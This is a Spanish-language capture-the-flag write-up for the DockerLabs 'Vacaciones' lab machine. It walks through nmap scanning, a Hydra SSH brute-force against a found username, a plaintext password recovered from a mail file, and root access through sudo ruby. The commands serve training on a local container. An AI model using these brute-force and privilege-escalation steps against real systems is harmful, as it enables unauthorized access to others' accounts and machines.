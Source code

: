 
- Plataforma: https://dockerlabs.es/
- Mirror: https://mega.nz/file/YCEGAISD#y6iWUG_auH4vUApClb9ix7H6JmOCKm4vAYS2TjQn59g
- Nombre: Vacaciones
- Dificultad: Muy fácil
- Formato: Docker

1 comprobamos si tenemos docker instalado de no ser así lo instalamos

```sh fold:"Comprobar si docker está instalado"
docker -v
```
Instalamos
```sh fold:"Instalacion de docker"
sudo apt install docker.io
```

Ahora levantamos la maquina:

```sh fold:"Levantamos la maquina en docker"
sudo bash auto_deploy.sh vacaciones.tar 

```


Desplegamos la máquina:
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Vacaciones/Images/Dockerlabs%20-%20Vacaciones%20-%20Despliegue%20me%20maquina.png?raw=true)


Hacemos un ping para comprobar conectividad y sistema operativo:

ping 172.17.0.2       
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.154 ms


ttl=64 --> maquina Linux

ahora vamos a lanzar nmap
```sh fold:"Nmap"
sudo nmap -sS -p- -sC -sV -Pn 172.17.0.2
```
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Vacaciones/Images/Dockerlabs%20-%20Vacacioens%20-%20Nmap%20result.png?raw=true)

puertos
puerto 22 ssh
puerto 80  http

vamos a lanzar el scrip de nmap para cada puerto:

puerto 80:
```sh fold:"Scrip vulnerabilidades de Nmap puerto 80"
sudo nmap --script "vuln" -p80 172.17.0.2 
```

Descubierto:   After NULL UDP avahi packet DoS (CVE-2011-1002).
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Vacaciones/Images/Dockerlabs%20-%20Vacacioens%20-%20%20Script%20vbuln%20p%2080.png?raw=true)

Ahora lanzamos el del puerto 22:

```sh fold:"Scrip vulnerabilidades de Nmap puerto 22"
sudo nmap --script "vuln" -p22 172.17.0.2 
```


Descubrimos la misma vulnerabilidad
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Vacaciones/Images/Dockerlabs%20-%20Vacacioens%20-%20%20Script%20Vulnerabilidad%20P22.png?raw=true)



no parece que podamos explotar nada
![image](
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Vacaciones/Images/Dockerlabs%20-%20Vacacioens%20-%20Web.png?raw=true)
Al parecer no hay nada en la web:
Vamos a ver el código fuente:
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Vacaciones/Images/Dockerlabs%20-%20Vacaciones%20-%20Codigo%20Fuente.png?raw=true)


y nos encontramos un mensaje:

<!-- De : Juan Para: Camilo , te he dejado un correo es importante... -->
encontramos 2 usuarios:
- Juan
- Camilo


Alguno de estos usuarios podría estar en el sistema con acceso por SSH (puerto 22)

Como no conocemos la contraseña, solo podemos hacer fuerza bruta con Hydra





```sh fold:"Fuerza bruta con Hydra usuario camilo"
hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

User: camilo  
password: ****************


intentamos hacer login por ssh

```sh fold:"ssh acces con camilo como usuario"
ssh camilo@T172.17.0.2
```

acceso con camilo:

![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Vacaciones/Images/Dockerlabs%20-%20Vacaciones%20-%20acceso%20por%20ssh%20usuario%20camilo.png?raw=true)

## escalada de privilegios:
sudo -l
[sudo] password for camilo: 
Sorry, user camilo may not run sudo on 2f317d25df18.


```sh fold:"Revisar si tenemos permiso de escritura en /etc/passwd"
find / -writable -type f 2>/dev/null |grep '/etc/passwd' && ls -lah /etc/passwd
```
No result

```sh fold:"Revisar binarios que se puedan explotar"
find  / -perm -4000 2>/dev/null  
```

No result

Seguimos buscando
find / type f -name "*.txt" todos los ficheros txt:

![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Vacaciones/Images/Dockerlabs%20-%20Vacaciones%20-%20Fichero%20de%20correo%20encontrado.png?raw=true)

vemos este fichero:  correo.txt que si tenemos acceso, vamos a abrirlo
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Vacaciones/Images/Dockerlabs%20-%20Vacacioens%20-%20%20Contenido%20fichero%20correo.png?raw=true)


Contenido:
Hola Camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb

Obtenemos una contraseña vamos a probarla con el usuario root:
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Vacaciones/Images/Dockerlabs%20-%20Vacaciones%20-%20Intento%20acceso%20rrot.png?raw=true)

Pero hno accedemos
también tenemos el usuario Juan vamos a probar con este usuario:

Ahora is tenemos acceso con el usuario Junan:
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Vacaciones/Images/Dockerlabs%20-%20Vacaciones%20-%20Acceso%20usuario%20Juan.png?raw=true)

$ sudo -l
Matching Defaults entries for juan on 2f317d25df18:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User juan may run the following commands on 2f317d25df18:
    (ALL) NOPASSWD: /usr/bin/ruby

Buscamos esto en gyfobins:
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Vacaciones/Images/Dockerlabs%20-%20Vacacioens%20-%20%20Gtfobbins%20ruby%20sudo%20access.png?raw=true)

Ejecutamos este comando
y conseguimos acceso root
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Vacaciones/Images/Dockerlabs%20-%20Vacaciones%20-%20Root%20access.png?raw=true)


ahora vamos a  eliminar la maquina pulsando Ctrl+C
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Vacaciones/Images/Dockerlabs%20-%20Vacacioens%20-%20%20Eliminar%20la%20maquina.png?raw=true)

Maquina resuelta completamente!! :D


